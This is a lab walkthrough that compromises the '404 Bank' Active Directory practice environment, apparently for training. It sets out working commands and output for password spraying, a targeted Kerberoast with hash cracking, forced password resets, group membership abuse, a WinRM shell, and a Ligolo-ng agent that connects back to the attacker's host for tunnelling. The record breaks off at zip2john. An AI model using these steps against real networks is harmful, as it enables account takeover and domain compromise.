In this walkthrough, we will be compromising 404 Bank, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting with no credentials and only VPN access to the internal network. A downloadable client on the bank's public site carries a base64 string that decodes to an MD5 hash, and the hash resolves to a password we spray against usernames built from the Meet Our Team section, landing `karl.hackermann`. A Targeted Kerberoast from that account reaches `tom.reboot`, then password resets move through `robert.graef` to `jan.tresor`, an account we add to Remote Desktop Users for an RDP session. An email left in the recycle bin carries a password for `daniel.hoffmann`, and that account's group membership gets us a WinRM shell. Resetting `webadmin` gives us the login for an internal admin portal, which never appeared in the external scan and needs a Ligolo-ng tunnel to reach. The portal serves a password-protected configuration backup that cracks against a wordlist built from the bank's own website, giving up the disabled service account `svc.services`. Clearing that account's disabled flag lets it authenticate, and it holds write access over a certificate template directly, so rewriting the template turns ESC4 into ESC1 for a domain administrator certificate.



Created by: [2ubZ3r0](https://www.hacksmarter.org/courses/bd8a0659-8afe-40b4-9e95-0fe932850773)

Let's get started.

## Objective

404 Bank, a staple of the local financial community, is conducting its annual security assessment. To uphold their motto of being "Proven, Local, Strong," the bank has commissioned the Hack Smarter Red Team to perform an internal penetration test.

You have been provided with VPN access to their internal environment, but no other information.

## Scope

**Target:** `10.1.143.161`

## RustScan

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.143.161 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 404 Finance Group
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-08-22 03:55:11Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-22T03:56:46+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Issuer: commonName=404finance-DC-404-CA/domainComponent=404finance
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-22T03:28:27
| Not valid after:  2027-08-22T03:28:27
| MD5:     ce5b 8e8f d251 14ee 4080 aa61 ac89 e7eb
| SHA-1:   ce2a c435 853b 95dd fc6c 63e6 ff97 6a3f 3c38 fbb2
| SHA-256: bc82 38c7 5018 674c feec b562 0be2 f6f3 215a dc6b 7d2e 7cc3 8d0d ffeb 325f 35f8
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Issuer: commonName=404finance-DC-404-CA/domainComponent=404finance
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-22T03:28:27
| Not valid after:  2027-08-22T03:28:27
| MD5:     ce5b 8e8f d251 14ee 4080 aa61 ac89 e7eb
| SHA-1:   ce2a c435 853b 95dd fc6c 63e6 ff97 6a3f 3c38 fbb2
| SHA-256: bc82 38c7 5018 674c feec b562 0be2 f6f3 215a dc6b 7d2e 7cc3 8d0d ffeb 325f 35f8
|_ssl-date: 2026-08-22T03:56:46+00:00; 0s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-22T03:56:46+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Issuer: commonName=404finance-DC-404-CA/domainComponent=404finance
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-22T03:28:27
| Not valid after:  2027-08-22T03:28:27
| MD5:     ce5b 8e8f d251 14ee 4080 aa61 ac89 e7eb
| SHA-1:   ce2a c435 853b 95dd fc6c 63e6 ff97 6a3f 3c38 fbb2
| SHA-256: bc82 38c7 5018 674c feec b562 0be2 f6f3 215a dc6b 7d2e 7cc3 8d0d ffeb 325f 35f8
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: 404finance.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-404.404finance.local
| Issuer: commonName=404finance-DC-404-CA/domainComponent=404finance
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-22T03:28:27
| Not valid after:  2027-08-22T03:28:27
| MD5:     ce5b 8e8f d251 14ee 4080 aa61 ac89 e7eb
| SHA-1:   ce2a c435 853b 95dd fc6c 63e6 ff97 6a3f 3c38 fbb2
| SHA-256: bc82 38c7 5018 674c feec b562 0be2 f6f3 215a dc6b 7d2e 7cc3 8d0d ffeb 325f 35f8
|_ssl-date: 2026-08-22T03:56:46+00:00; 0s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: FINANCE404
|   NetBIOS_Domain_Name: FINANCE404
|   NetBIOS_Computer_Name: DC-404
|   DNS_Domain_Name: 404finance.local
|   DNS_Computer_Name: DC-404.404finance.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-22T03:56:06+00:00
|_ssl-date: 2026-08-22T03:56:46+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC-404.404finance.local
| Issuer: commonName=DC-404.404finance.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-21T03:37:35
| Not valid after:  2027-02-20T03:37:35
| MD5:     2965 4472 a616 a92b 2664 1647 5cdf a17a
| SHA-1:   d5f1 ad28 cda0 9306 49a5 bb4c 8120 2861 3003 e036
| SHA-256: 918d 477b 5733 60be 0fee ee98 0d21 3d37 4b52 2200 2d8d 9571 ada0 6587 382d 69da
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49720/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49734/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49830/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC-404; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, SMB on 445, LDAPS on 636, the global catalog on 3268 and 3269, RDP on 3389, and WinRM on 5985. IIS on 80 is also exposed, which is not part of a default domain controller install. The LDAP banner gives us the domain as `404finance.local`, and the certificate subject and RDP NTLM info confirm the hostname as `DC-404.404finance.local`. We add both to `/etc/hosts` before continuing.

## HTTP (Port 80)

The site is a corporate front for 404 Finance Group.



*The 404 Finance Group front page served by IIS on the domain controller*

An Our Services page lists what the bank offers, and an Online Banking entry at the foot of it hands out `CorpBankDialer.exe`, a client for its customers.



*The Online Banking entry at the foot of the Our Services page offering CorpBankDialer.exe*

We download it and run `strings` over it.

```
strings CorpBankDialer.exe
```

```
/lib64/ld-linux-x86-64.so.2
__libc_start_main
__cxa_finalize
printf
libc.so.6
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Welcome to CorpBank SecureAccess v3.7.2\n
DEBUG: ZGQyZWYzNDUzMGRlN2U1YmVmMjJhMDVlN2U1ZGQxNzg=\n
;*3$"
GCC: (Debian 14.2.0-19) 14.2.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
CorpBankDialer.c
__FRAME_END__
_DYNAMIC
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_start_main@GLIBC_2.34
_ITM_deregisterTMCloneTable
_edata
_fini
printf@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
_end
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
.symtab
.strtab
.shstrtab
.note.gnu.property
.note.gnu.build-id
.interp
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.note.ABI-tag
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```



*The DEBUG line in the CorpBankDialer.exe strings output carrying a base64 string*

Most of it is the usual linker and section noise, but a `DEBUG` line left in the build carries a base64 string, so we decode it.

```
echo 'ZGQyZWYzNDUzMGRlN2U1YmVmMjJhMDVlN2U1ZGQxNzg=' | base64 -d
```

```
dd2ef34530de7e5bef22a05e7e5dd178
```

Thirty-two hex characters is an MD5 hash, so before cracking anything we try [CrackStation](https://crackstation.net/), which searches precomputed tables of already-cracked hashes.



*CrackStation resolving the MD5 hash from the binary to Password123!!*

That gives us `Password123!!`. Nothing else in the binary is interesting, so we have a password and no account to use it on.

A Meet Our Team section elsewhere on the site lists three employees by name.



*The Meet Our Team section listing three 404 Finance Group employees by name*

## Access as karl.hackermann

Three real names and a password, but not the domain's username format. [username-anarchy](https://github.com/urbanadventurer/username-anarchy) takes a list of full names and generates every common permutation, so we spray the whole set rather than guess.

```
printf 'Alex Meier\nRobert Graef\nKarl Hackermann\n' > employees.txt
```

```
./username-anarchy -i employees.txt > users.txt
```

```
cat users.txt
```

```
alex
alexmeier
alex.meier
alexmeie
alexm
a.meier
ameier
malex
m.alex
meiera
meier
meier.a
meier.alex
am
robert
robertgraef
robert.graef
robertgr
robegrae
robertg
r.graef
rgraef
grobert
g.robert
graefr
graef
graef.r
graef.robert
rg
karl
karlhackermann
karl.hackermann
karlhack
karlh
k.hackermann
khackermann
hkarl
h.karl
hackermannk
hackermann
hackermann.k
hackermann.karl
kh
```

We spray the password across the whole list.

```
nxc smb 10.1.143.161 -u 'users.txt' -p 'Password123!!' --continue-on-success
```

```
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\karl.hackermann:Password123!!
```



*The password spray landing on karl.hackermann out of the generated username list*

One hit. The format is `firstname.lastname`, and the credential shipped in a public download works against a live domain account.

## SMB Enumeration

The first thing to check is what `karl.hackermann` can reach on the domain controller.

```
nxc smb 10.1.143.161 -u 'karl.hackermann' -p 'Password123!!' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\karl.hackermann:Password123!! 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share 
```



*Validating karl.hackermann credentials with NetExec*

Credentials are valid, and the share list is the standard domain controller set with nothing custom on it.

## BloodHound Enumeration

We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.143.161 -u 'karl.hackermann' -p 'Password123!!' --bloodhound --collection All --dns-server 10.1.143.161
```

```
LDAP        10.1.143.161    389    DC-404           [*] Windows 10 / Server 2019 Build 17763 (name:DC-404) (domain:404finance.local) (signing:None) (channel binding:Never) 
LDAP        10.1.143.161    389    DC-404           [+] 404finance.local\karl.hackermann:Password123!! 
LDAP        10.1.143.161    389    DC-404           Resolved collection methods: rdp, psremote, trusts, group, session, acl, objectprops, localadmin, dcom, container
LDAP        10.1.143.161    389    DC-404           Done in 0M 19S
LDAP        10.1.143.161    389    DC-404           Compressing output into /home/kali/.nxc/logs/DC-404_10.1.143.161_2026-08-23_175907_bloodhound.zip
```

We ingest the archive and look at what `karl.hackermann` can reach. It holds `GenericWrite` over `tom.reboot`.



*BloodHound GenericWrite: karl.hackermann over tom.reboot*

## Access as tom.reboot

`GenericWrite` does not allow a password reset, but it does allow writing attributes, which is all a Targeted Kerberoast needs. Setting a Service Principal Name on an account we can write to makes it roastable: any authenticated user can then request a service ticket for it, and part of that ticket is encrypted with a key derived from the account's password, so we crack it offline. [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) sets the SPN, requests the TGS, and removes the SPN after.

```
python3 targetedKerberoast.py -v -d '404finance.local' -u 'karl.hackermann' -p 'Password123!!'
```

```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (tom.reboot)
[+] Printing hash for (tom.reboot)
$krb5tgs$23$*tom.reboot$404FINANCE.LOCAL$404finance.local/tom.reboot*$a79552f0fd067688d50c91c5ec8c41e9$08091a80e9c2e8e10a9a06b25e0e82a2e2d83e72a75bddea7a176932ac5363b8d98b80e2ad7a9606c66044d578be03c74f336a8a08665b61f6943cbe16553370fc8a83d8e2f90c77e23e192dabfc4103b9009fecb93f3ac387fc10d3a1ffb115964e59834cedeb429b5e69b9a2540aef330120b945c822d3fc43b76c9afd542113b17461f75b242b32cf8b788136f90eb7cc1a6f94ae2b318914c0dfe15059ad72e4889e4f4d1f936de2d6bed7f7e12127322551b29dbb964d12ab362870e54441ff294f3620e0211a791618a89fc78c5af40bcc681a15a2df0220212c45246a5ecc6ad0f72642f23323642f7e3c8650862a87cd171902bc42cfd2c721c623e1d523c3e4087057ff801c303da5b7a4b768d542db00d3f663067fb375a28200b35e2a136a937040d20e4770dad3e3947b8eb5593cb5f037bf5648ac040e2fd346047339d48228f30b71338a63d793ae1c67e60ea68478f83752eba1719b4ed36c924c6844f5f53074877a79d7ce3359d412902ea40c982634c4f1c6de30cd2306e13442595b9bc6d818b9690c1d8cd1de9a2fd61ad535d0d1ada374d5606f1f8222c29ab05b99fde60dc2e274f654e3de6e12061010a21f300e42a651074b690153ea615a9bbb978d116eff3b5478b0230fdb87d8acb341dc16eb1027919659458696fff21323e070cae098cec3ad4d7a101bbbbfc376ed0f9179eb1d254c76598f0a5adaad5b174df6df5ab7f1d84590fe970f1a0bcd303c086dd403d6ff7958670e0cf91f250e4d549c4e1196ba2d6e83b5e352b5ec6529ec75eb1deca888cce9fce381e917059074dfa9115b30252a02ca8670649bef1a0ed7b96b485d5428135ceb0791727e25f0ec337a4092ea26ccfcef9166da72ad979f4775be5a115668eb8fced0a4b4de503018a2a51967be92098039ff845f041af614bbcd5503d03c318734306f4f1ea85f52d140d0b922fa4410502a3b42fb97deb1480fce0ac45e38c9102953969fdc520d907ebe9fddb31ef48b85753e443e3d661b893ad384a5216a8ed5d283770a422b31dfa9c0e11c8792f9b331048fcdd627aaed76c15c51be8bc72f5fdff2068b35e601d295c7d913e7b368bc0d1fc553d24d2f6fcf76d1490fbfbce38db1b109efedb74aab1362d4bf9f49d45b9006b233b6b58d310824219886f40477d48a3a54aaaaa3d0b3b3d76f50127327a221af73ba9e4bed40e1fe85654a8405b487f05ac813a97f91b8f83784c83c5b468d7e5177702bb882b7d3409a32978a53b24c5cba8e3a2107611631d2e36507a37816067196b2d18884c05edcd7ea30280e4f31a2e3474b194c31c94434729c3edf57fa2af88f1f6f6c11a20a12a74354dd167155fb1fae08effbf9754e494e0fc4ab8d6ef3bbf6fbedbe6e192e527d03df60b34567b8e95991c5b85aad871abe3452520269f757149125ee6d8ad988d44db523c35bb35630a57f0ed54f0d32ad8657478a4f60e47afdd0f2bc3f9f62726ed3106fe34d40a4d3630eed04431106ea61da1d95771075c63879ed00c37a998be5c5b28ac3e6784e7ce99169a2139c8d8bc790bbb9004c
[VERBOSE] SPN removed successfully for (tom.reboot)
```



*targetedKerberoast planting an SPN on tom.reboot, printing the service ticket, and removing the SPN*

We save the ticket to `tom_reboot_hash.txt` and run it through john.

```
john tom_reboot_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd123      (?)     
1g 0:00:00:04 DONE (2026-08-23 18:11) 0.2164g/s 2329Kp/s 2329Kc/s 2329KC/s PA"TI%TO..P1nkr1ng
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering P@ssw0rd123 from the tom.reboot service ticket*

Cracked. We validate `tom.reboot:P@ssw0rd123`.

```
nxc smb 10.1.143.161 -u 'tom.reboot' -p 'P@ssw0rd123' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\tom.reboot:P@ssw0rd123 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share
```



*Validating tom.reboot credentials with NetExec*

## Access as robert.graef

`tom.reboot` holds `ForceChangePassword` over `robert.graef`.



*BloodHound ForceChangePassword: tom.reboot over robert.graef*

That right sets the password without needing the current one.

```
net rpc password 'robert.graef' '0xB1rdWasHere1337!' -U '404finance.local'/'tom.reboot'%'P@ssw0rd123' -S '10.1.143.161'
```

The command returns nothing, so we test the new password.

```
nxc smb 10.1.143.161 -u 'robert.graef' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\robert.graef:0xB1rdWasHere1337! 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share 
```



*Validating robert.graef credentials with NetExec*

The new password works.

## Access as jan.tresor

`robert.graef` carries a stack of outbound object control: `ForceChangePassword` over `nina.inkasso`, `melanie.kunz`, and `jan.tresor`, `AddMember` on the `REMOTE DESKTOP USERS` group, and `WriteAccountRestrictions` over `svc.services`.



*BloodHound showing the outbound object control held by robert.graef across three user accounts, a group, and a service account*

`jan.tresor` is the one we take.

```
net rpc password 'jan.tresor' '0xB1rdWasHere1337!' -U '404finance.local'/'robert.graef'%'0xB1rdWasHere1337!' -S '10.1.143.161'
```

We validate the new password.

```
nxc smb 10.1.143.161 -u 'jan.tresor' -p '0xB1rdWasHere1337!' --shares 
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\jan.tresor:0xB1rdWasHere1337! 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share 
```



*Validating jan.tresor credentials with NetExec*

Credentials confirmed, and still no share access beyond the standard set. What we want from this account is a session on the box. Interactive logon over RDP is gated on membership in Remote Desktop Users, and `robert.graef` holds `AddMember` on that group, so we put `jan.tresor` in it.

```
net rpc group addmem 'REMOTE DESKTOP USERS' 'jan.tresor' -U '404finance.local'/'robert.graef'%'0xB1rdWasHere1337!' -S '10.1.143.161'
```

That returns silently too, so we connect and find out.

```
xfreerdp /v:'10.1.143.161' /d:'404finance.local' /u:'jan.tresor' /p:'0xB1rdWasHere1337!' +clipboard
```



*The RDP desktop session on DC-404 as jan.tresor after the group membership write*

The session lands. Going through the desktop, the recycle bin holds a set of deleted emails, one of them titled Access Credentials – Don't Tell Anyone. We restore it and read it.

```
Hi Jan,
Since Daniel Hoffmann seems to believe email is a one-way communication channel these days 🙄, I'm sharing his access credentials with you directly so we can finally move things along.
Please make sure Daniel gets the following password:
RemoteAccess!2024
Make him promise to use it only for work-related tasks (no Minecraft server setups this time).
Once you've passed it on, please delete this email right away – pretend it self-destructed like in Mission Impossible. 🔥💥
Thanks for being the responsible adult in this situation.
Best,
Administrator
404 Finance IT Operations
```



*The restored email handing over the daniel.hoffmann credentials in plaintext*

That gives us a password for Daniel Hoffmann, and the username format from the spray makes the account `daniel.hoffmann`.

## Shell as daniel.hoffmann (user.txt)

We test what the email gave us.

```
nxc smb 10.1.143.161 -u 'daniel.hoffmann' -p 'RemoteAccess!2024' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\daniel.hoffmann:RemoteAccess!2024 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share 
```



*Validating daniel.hoffmann credentials with NetExec*

The credentials work, and in BloodHound this account is a member of Remote Management Users.



*BloodHound showing daniel.hoffmann membership in Remote Management Users*

That group governs WinRM access, so we connect.

```
evil-winrm -i '10.1.143.161' -u 'daniel.hoffmann' -p 'RemoteAccess!2024'
```



*Evil-WinRM session on DC-404 as daniel.hoffmann*

`user.txt` is on the desktop.



*The Evil-WinRM session with user.txt listed on the daniel.hoffmann desktop*

## Access as webadmin

Back in BloodHound, `daniel.hoffmann` holds `ForceChangePassword` over `webadmin`.



*BloodHound ForceChangePassword: daniel.hoffmann over webadmin*

That account has no outbound object control of its own, but the name points at whatever web resources this host is running, so it is worth taking.

```
net rpc password 'webadmin' '0xB1rdWasHere1337!' -U '404finance.local'/'daniel.hoffmann'%'RemoteAccess!2024' -S '10.1.143.161'
```

We validate the new password.

```
nxc smb 10.1.143.161 -u 'webadmin' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.143.161    445    DC-404           [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-404) (domain:404finance.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.143.161    445    DC-404           [+] 404finance.local\webadmin:0xB1rdWasHere1337! 
SMB         10.1.143.161    445    DC-404           [*] Enumerated shares
SMB         10.1.143.161    445    DC-404           Share           Permissions     Remark
SMB         10.1.143.161    445    DC-404           -----           -----------     ------
SMB         10.1.143.161    445    DC-404           ADMIN$                          Remote Admin
SMB         10.1.143.161    445    DC-404           C$                              Default share
SMB         10.1.143.161    445    DC-404           IPC$            READ            Remote IPC
SMB         10.1.143.161    445    DC-404           NETLOGON        READ            Logon server share 
SMB         10.1.143.161    445    DC-404           SYSVOL          READ            Logon server share
```



*Validating webadmin credentials with NetExec*

Now we need to find what `webadmin` administers. From the `daniel.hoffmann` WinRM session we list what the host is listening on.

```
netstat -an | findstr LISTENING | findstr /V "\[::\]"
```

```
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5000           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49693          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49702          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49713          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49722          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49753          0.0.0.0:0              LISTENING
  TCP    10.1.143.161:53        0.0.0.0:0              LISTENING
  TCP    10.1.143.161:139       0.0.0.0:0              LISTENING
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING
```



*The listening ports on DC-404, with port 5000 bound on every interface and absent from the external scan*

Port 5000 is bound on every interface but never appeared in our RustScan results, so something on the host is filtering it from outside. [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) presents the target's network as a route on our own machine. The proxy runs on our host, the agent runs on the target and connects back to it, and traffic sent to a dedicated interface is forwarded through that connection and out of the agent. Routing `240.0.0.1` to that interface reaches the agent's own loopback, so we come at port 5000 from the host itself rather than across the filter.

We start the proxy on our host, create the interface, and add the route.

```
sudo ./proxy -selfcert
```

```
ifcreate --name 404-bank
route_add --name 404-bank --route 240.0.0.1/32
```

The agent goes up through the `daniel.hoffmann` WinRM session, which is the session we already have on the target.

```
upload windows-agent.exe
```

```
./windows-agent.exe -connect 10.200.84.33:11601 --ignore-cert
```



*The windows-agent.exe upload and connect back to the proxy from the daniel.hoffmann Evil-WinRM session*

With the agent connected we select the session and start the tunnel.

```
session
1    # select the agent session at the prompt
tunnel_start --tun 404-bank
tunnel_list
route_list
```



*The Ligolo-ng tunnel running on the 404-bank interface with the 240.0.0.1 route listed*

The service on port 5000 is now reachable at `http://240.0.0.1:5000`, and it challenges for basic authentication. The `webadmin` credentials we just set get us in.



*The internal admin interface on port 5000 reached through the tunnel and authenticated as webadmin*

The interface offers a services configuration archive, which we download.

## Access as svc.services

The archive is password protected, so we pull the hash out of it with `zip2john`.

```
zip2john config_backup.zip
```

```
